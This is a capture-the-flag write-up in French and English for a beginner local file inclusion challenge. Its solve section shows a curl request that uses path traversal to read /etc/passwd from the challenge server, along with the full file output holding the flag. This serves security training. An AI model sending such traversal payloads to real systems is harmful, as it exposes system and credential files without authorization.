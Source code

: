# La Faille Inssoumise

## FR

Un nouveau membre de l'infosec se lance dans le hacking, il a commencé à développer son site de veille.
Retrouvez le nom de l'utilisateur de son système, et montrez lui qu'il n'est pas sécurisé !

## EN

A new member of infosec start to do hacking and develop his news website.
Find the system username to show him how his website is unsecure!

https://lfi.flag4all.sh

Auteur : K_lfa (BZHack / ESDAcademy)


https://lfi.flag4all.sh

## Solve

page link to `https://lfi.flag4all.sh/?page=page1.php`
Looks like some LFI (Local File Inclusion)
```
└─$ curl 'https://lfi.flag4all.sh/?page=../../../../../etc/passwd'                                                                                                                        

<html>
    <head>
            <title> Un site de hacker </title>
    </head>
    <body>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
Flag{L0c4l_F1l3_1nclusi0n_L3AK}:x:1000:100::/home/Flag{L0c4l_F1l3_1nclusi0n_L3AK}:/bin/sh

                        <center><a href=http://lfi.flag4all.sh/>Retour</a></center></br></br>
                        <center>Pour la bonne cause des hackers, Utilisez la navigation privée.</center>
```
